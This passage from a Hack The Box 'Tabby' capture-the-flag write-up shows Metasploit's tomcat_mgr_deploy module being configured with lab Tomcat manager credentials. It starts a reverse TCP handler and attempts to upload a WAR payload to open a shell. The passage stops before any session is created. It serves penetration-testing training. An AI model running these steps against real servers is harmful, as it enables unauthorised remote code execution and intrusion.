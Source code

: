 ![Untitled](/img/htb-tabby/Untitled%207.png)

Again error, And its telling me to select target

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > set PATH /host-manager/text
PATH => /host-manager/text
msf5 exploit(multi/http/tomcat_mgr_deploy) > exploit

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Attempting to automatically select a target...
[-] Failed: Error requesting /host-manager/text/serverinfo
[-] Exploit aborted due to failure: no-target: Unable to automatically select a target
[*] Exploit completed, but no session was created.
```

I set the target to 1.

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Java Universal
   2   Windows Universal
   3   Linux x86

msf5 exploit(multi/http/tomcat_mgr_deploy) > set target 1
target => 1
```

Now I get 403 error, I can't upload it.

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > exploit

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Using manually select target "Java Universal"
[*] Uploading 6275 bytes as zhpcU7dZuFQHdCHqffqv1N3Rb0w.war ...
[-] Exploit aborted due to failure: unknown: Upload failed on /host-manager/text/deploy?path=/zhpcU7dZuFQHdCHqffqv1N3Rb0w [403 ]
[*] Exploit completed, but no session was created.
```

Let's switched to `/manager`

All set now time to get shell. (Note : If you didn't get shell in first time, run that again)

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > options

Module options (exploit/multi/http/tomcat_mgr_deploy):

   Name          Current Setting     Required  Description
   ----          ---------------     --------  -----------
   HttpPassword  $3cureP4s5w0rd123!  no        The password for the specified username
   HttpUsername  tomcat              no        The username to authenticate as
   PATH          /manager/text       yes       The URI path of the manager app (/deploy and /undeploy will be used)
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.10.194        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:[path](path)'
   RPORT         8080                yes       The target port (TCP)
   SSL           false               no        Negotiate SSL/TLS for outgoing connections
```